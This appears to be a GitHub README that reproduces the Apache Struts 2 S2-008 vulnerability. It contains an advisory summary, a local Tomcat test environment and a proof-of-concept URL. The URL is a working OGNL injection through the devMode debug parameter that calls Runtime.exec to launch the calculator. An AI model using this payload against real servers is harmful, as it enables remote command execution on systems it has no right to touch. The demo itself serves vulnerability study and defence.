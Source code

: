 # S2-008 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution and arbitrary file overwrite, Strict DMI does not work correctly |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to at least [Struts 2.3.18](http://struts.apache.org/download.cgi#struts2311) or read the following solution instructions carefully for a configuration change to mitigate the vulnerability |
| Affected Software       | Struts 2.0.0 - Struts 2.3.17                                 |
| Original JIRA Ticket    | [WW-3729](https://issues.apache.org/jira/browse/WW-3729)     |
| Reporter                | Johannes Dahse, SEC Consult Vulnerability Lab and Bruce Phillips (blog post) |
| CVE Identifier          |                                                              |
| Original Description    | [Reported directly to security@struts.a.o](https://www.sec-consult.com/files/20120104-0_Apache_Struts2_Multiple_Critical_Vulnerabilities.txt) and [Struts 2 Security Vulnerability - Dynamic Method Invocation](http://www.brucephillips.name/blog/index.cfm/2011/2/19/Struts-2-Security-Vulnerability--Dynamic-Method-Invocation) |

## Problem

When `devMode` is on, the hacker can pass in `ognl` expressions for execution.

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

![devmode](devmode.jpg)

payload:

```java
http://localhost:8080/s2_008_war_exploded/devmode.action
?debug=command
&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29)
```


## Reference

- [struts2最近几个漏洞分析&稳定利用payload](http://drops.xmd5.com/static/drops/papers-902.html)


* [S2-008](https://cwiki.apache.org/confluence/display/WW/S2-008)

